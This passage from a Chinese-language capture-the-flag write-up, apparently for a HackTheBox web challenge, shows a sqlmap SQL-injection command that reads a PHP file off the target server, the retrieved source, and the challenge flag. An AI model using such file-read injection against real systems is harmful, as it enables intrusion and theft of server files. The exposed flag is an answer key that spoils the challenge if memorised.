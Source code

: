       if(!mail($to, $subject, $body, $header))
        http_response_code(500);
      ?>
      ```
    
    * 回想之前登录成功会跳转页面，如果运气好的话，可能在跳转后的页面存在flag，尝试获取`panel.php`源码
    
      * shell
    
        ```shell
        sqlmap -u 'http://[IP]:[PORT]/portfolio.php?id=1' -D freelancer -T safeadmin --file-read=/var/www/html/administrat/panel.php
        ```
    
      * php
    
        ```PHP
        <?php
        // Initialize the session
        session_start();
         
        // Check if the user is logged in, if not then redirect him to login page
        if(!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true){
            header("location: index.php");
            exit;
        }
        ?>
         
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <title>Welcome</title>
            <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.css">
          <link rel="icon" href="../favicon.ico" type="image/x-icon">
            <style type="text/css">
                body{ font: 14px sans-serif; text-align: center; }
            </style>
        </head>
        <body>
            <div class="page-header">
                <h1>Hi, <b><?php echo htmlspecialchars($_SESSION["username"]); ?></b>. Welcome to our site.</h1><b><a href="logout.php">Logout</a></b>
        <br><br><br>
                <h1>HTB{s4ff_3_1_w33b_fr4__l33nc_3}</h1>
            </div>
        </body>
        </html>
        ```
      
    * 发现flag，HTB{s4ff_3_1_w33b_fr4__l33nc_3}

## 独立思考
